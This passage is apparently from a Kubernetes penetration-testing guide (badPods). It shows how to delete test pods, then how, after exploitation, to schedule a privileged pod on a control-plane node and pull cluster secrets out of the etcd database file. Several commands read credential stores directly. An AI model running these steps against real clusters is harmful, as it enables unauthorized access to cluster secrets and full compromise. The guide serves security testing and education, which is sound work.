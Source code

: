 ## Deleting resources
You can delete a resource using it's manifest, or by name. Here are some examples: 
```
kubectl delete [type] [resource-name]
kubectl delete -f manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
kubectl delete -f https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/priv-and-hostpid/pod/priv-and-hostpid-exec-pod.yaml
kubectl delete pod priv-and-hostpid-exec-pod
kubectl delete cronjob priv-and-hostpid-exec-cronjob
```

# Post exploitation

## Can you run your pod on a control-plane node
The pod you created above was likely scheduled on a worker node. Before jumping into post exploitation on the worker node, it is worth seeing if you run your a pod on a control-plane node. If you can run your pod on a control-plane node using the nodeName selector in the pod spec, you might have easy access to the etcd database, which contains all of the configuration for the cluster, including all secrets. This is not a possible on cloud managed Kubernetes clusters like GKE and EKS - they hide the control-plane. 

**Get nodes**
```
kubectl get nodes
NAME                STATUS   ROLES    AGE   VERSION
k8s-control-plane   Ready    master   93d   v1.19.1
k8s-worker          Ready    <none>   93d   v1.19.1
```

**Pick your manifest, uncomment and update the nodeName field with the name of the control-plane node**
```
nodeName: k8s-control-plane
```
**Create your pod**
```
kubectl apply -f manifests/priv-and-hostpid/job/priv-and-hostpid-exec-job.yaml
```

### Read secrets from etcd
If you can run your pod on a control-plane node using the `nodeName` selector in the pod spec, you might have easy access to the `etcd` database, which contains all of the configuration for the cluster, including all secrets. 

Below is a quick and dirty way to grab secrets from `etcd` if it is running on the control-plane node you are on. If you want a more elegant solution that spins up a pod with the `etcd` client utility `etcdctl` and uses the control-plane node's credentials to connect to etcd wherever it is running, check out [this example manifest](https://github.com/mauilion/blackhat-2019/blob/master/etcd-attack/etcdclient.yaml) from @mauilion. 

**Check to see if `etcd` is running on the control-plane node and see where the database is (This is on a `kubeadm` created cluster)**
```
root@k8s-control-plane:/var/lib/etcd/member/wal# ps -ef | grep etcd | sed s/\-\-/\\n/g | grep data-dir
```
Output:
```
data-dir=/var/lib/etcd
```
**View the data in etcd database:**
```
strings /var/lib/etcd/member/snap/db | less
```
